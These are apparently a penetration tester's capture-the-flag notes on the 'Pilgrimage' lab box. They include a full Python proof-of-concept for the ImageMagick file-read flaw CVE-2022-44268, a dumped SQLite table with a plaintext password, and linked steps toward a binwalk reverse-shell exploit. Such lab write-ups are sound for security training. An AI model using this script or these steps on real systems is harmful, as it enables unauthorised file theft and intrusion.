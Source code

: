 dumped git file repo with git-dumper

arb file read vuln

grabbed sqlite db with python script

https://github.com/kljunowsky/CVE-2022-44268

Upload poisoned file, got sqlite db with: `python3 CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/65bd760f22482.png`


modified script below:
```python
import argparse
import requests
import io
from PIL import Image, PngImagePlugin

def main():
    if args.url:
        headers = {'User-Agent': 'Shift Security Consulting https://shiftsecurityconsulting.com - CVE-2022-44268'}
        response = requests.get(args.url)
        img = Image.open(io.BytesIO(response.content))

        # Extract the raw profile type from the image metadata
        raw_profile_type = img.info.get('Raw profile type', '').split("\n")[3:]
        raw_profile_type_stipped = "\n".join(raw_profile_type)

        # Decrypt the raw profile type from hex format
        decrypted_profile_type = bytes.fromhex(raw_profile_type_stipped)

        with open("output.sqlite", "wb+") as out:
            out.write(decrypted_profile_type)

        # Print the decrypted profile type
        print(decrypted_profile_type)
    
    elif args.image:
        # Open the image file
        img = Image.open(args.image)

        # Create a PngInfo object and add the text
        info = PngImagePlugin.PngInfo()
        info.add_text('profile', args.file_to_read, zip=False)

        # Save the modified image to a new file
        img.save(args.output, 'PNG', pnginfo=info)

    else:
        print('Proof of Concept Exploit for CVE-2022-44268 by Milan Jovic - https://shiftsecurityconsulting.com\nUse -h for help')
    



if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Proof of Concept Exploit for CVE-2022-44268 by Milan Jovic - https://shiftsecurityconsulting.com')
    parser.add_argument('--url', help='The URL of the uploaded PNG image')
    parser.add_argument('--image', help='Input PNG file')
    parser.add_argument('--file-to-read', help='File to read')
    parser.add_argument('--output', help='Output PNG file')
    args = parser.parse_args()
    if not vars(args):
        parser.print_help()
    main()

```

https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

sqlite3 output.sqlite
SQLite version 3.44.2 2023-11-24 11:41:44
Enter ".help" for usage hints.
sqlite> .dump
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE users (username TEXT PRIMARY KEY NOT NULL, password TEXT NOT NULL);
INSERT INTO users VALUES('emily','abigchonkyboi123');
CREATE TABLE images (url TEXT PRIMARY KEY NOT NULL, original TEXT NOT NULL, username TEXT NOT NULL);
COMMIT;

/usr/bin/gettext.sh
/usr/sbin/malwarescan.sh

malwarescan uses binwalk to parse files, exploited a vuln in it to get a reverse shell.

revshells.com

https://github.com/adhikara13/CVE-2022-4510-WalkingPath

scp's malicious image over to box to /var/www/pilgrimage.htb/shrunk/

